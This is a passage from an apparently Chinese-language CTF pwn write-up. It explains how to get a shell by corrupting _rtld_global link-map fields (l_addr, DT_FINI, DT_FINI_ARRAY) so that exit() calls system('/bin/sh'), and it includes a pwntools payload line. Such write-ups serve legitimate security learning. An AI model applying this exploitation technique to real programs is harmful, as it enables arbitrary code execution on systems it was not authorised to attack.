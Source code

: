 再通过`.`​来向写内容，`>`​来抬地址以此来循环写入

##### 解题思路：

> 控制`rdi(_rtld_global+2312)`​为`'/bin/sh\x00'`​
> 
> 控制`l->l_addr`​ + `l->l_info[DT_FINI]`​->`d_un.d_ptr`​最终指向`system`​
> 
> 控制`l->l_info[DT_FINI_ARRAY] = 0`​
> 
> 显式触发`exit`​函数调用`_dl_fini`​函数

##### 动态调试：

```bash
payload = b'@' + p32(argv0-0x10) + write(b'/bin/sh\x00') 
#argv0 = _rtld_global+2312 - mmap_base
#argv0 即_rtld_global+2312 与 mmap_base 的偏移
#设置 rdi = _rtld_global+2312 = '/bin/sh\x00'
```

[![](assets/1701612101-ff0250d1cb3a39d31d8e2319323ef64e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230914100518-2757f424-52a3-1.png)
